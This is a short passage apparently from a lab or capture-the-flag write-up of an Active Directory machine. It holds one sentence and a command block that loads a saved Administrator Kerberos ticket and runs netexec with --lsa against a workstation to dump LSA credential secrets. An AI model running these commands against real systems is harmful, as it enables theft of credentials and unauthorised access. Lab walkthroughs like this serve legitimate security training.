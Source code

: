 ![](image-26.png)

\
Awesome the ticket is saved and now we can without any issues perform memory dumping one more time.

```c
export KRB5CCNAME=Administrator@cifs_ws01.reflection.vl@REFLECTION.VL.ccache
netexec smb ws01 -u Administrator -k --use-kcache --lsa
```
